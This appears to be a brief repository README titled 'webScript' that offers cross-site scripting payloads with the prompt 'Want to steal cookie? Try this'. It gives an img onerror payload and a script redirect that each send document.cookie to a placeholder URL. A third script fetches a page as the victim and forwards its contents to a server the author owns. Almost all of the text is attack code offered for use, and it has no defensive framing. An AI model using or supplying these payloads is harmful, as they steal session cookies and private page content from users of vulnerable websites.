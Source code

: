 # webScript

## Want to steal cookie ? 
Try this:
```js
<img src="" onerror="this.src='[URL]?cookie='+document.cookie;"></img>
```
```js
<script>document.location='[URL]?c='+document.cookie</script>
```

## Want to know how other see some page?
```js
<script>
    fetch('[URL-PAGE TO BE STOLEN]')
    .then((result) => { return result.text(); })
    .then((content) => {
        fetch('[URL-SERVER THAT I OWN ]?c='+content); 
    }); 
</script>
```
